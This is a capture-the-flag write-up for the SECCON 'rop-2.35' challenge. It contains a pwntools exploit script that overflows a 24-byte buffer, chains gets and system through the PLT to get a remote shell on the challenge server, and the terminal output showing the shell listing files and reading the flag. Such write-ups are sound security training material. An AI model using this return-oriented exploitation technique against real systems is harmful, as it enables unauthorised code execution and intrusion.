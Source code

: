 ![image](https://github.com/KernelKrise/CTF/assets/76210733/33c3ac23-d081-46f2-a94a-b1a932360dfe)
```
In [3]: cyclic_find(0x61616167)
Out[3]: 24
```

buffer length → 24 bytes
Just buffer overflow  → call gets() to read user input to writable address (in $rdi register on ret instruction), then call system() with payload writen by gets()

solve.py:
```
#!/usr/bin/env python3
from pwn import *


elf = ELF('/home/kali/Desktop/seccon/rop-2.35/chall')
rop = ROP(elf)
context.arch = elf.arch

# p = process('/home/kali/Desktop/seccon/rop-2.35/chall')
# gdb.attach(p, gdbscript='b *main+46')
p = remote('rop-2-35.seccon.games', 9999)

payload = cyclic(24)
payload += p64(elf.plt['gets'])
payload += p64(elf.plt['system'])

print(p.recv().decode(errors='ignore'))
p.sendline(payload)

p.sendline(b'/bin0sh')

p.interactive()
```

OUTPUT:
```
$ ./solve.py
[*] '/home/kali/Desktop/seccon/rop-2.35/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 5 cached gadgets for '/home/kali/Desktop/seccon/rop-2.35/chall'
[+] Opening connection to rop-2-35.seccon.games on port 9999: Done
Enter something:

[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
flag-b6c1520bf7debd2531dec4a0a58e878c.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag-b6c1520bf7debd2531dec4a0a58e878c.txt
SECCON{i_miss_you_libc_csu_init_:cry:}
```
